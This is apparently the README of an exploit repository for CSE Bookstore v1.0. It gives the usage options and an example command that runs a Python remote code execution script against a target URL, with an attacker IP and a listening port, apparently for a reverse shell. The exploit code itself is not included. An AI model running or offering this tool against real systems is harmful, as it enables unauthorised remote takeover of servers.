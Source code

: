 # CSE-Bookstore-v1.0-RCE
Remote Code Execution python script for CSE Bookstore v1.0

# Usage
```
---- CSE BookStore RCE ----
options:
  -h, --help  show this help message and exit
  -u URL      The url of the Target
  -l LHOST    The IP of the Attacker
  -p LPORT    The listening Port
```

**Example**

``$ python3 exploit.py -u http://cse-bookstore -l 10.123.25.4 -p 4444``
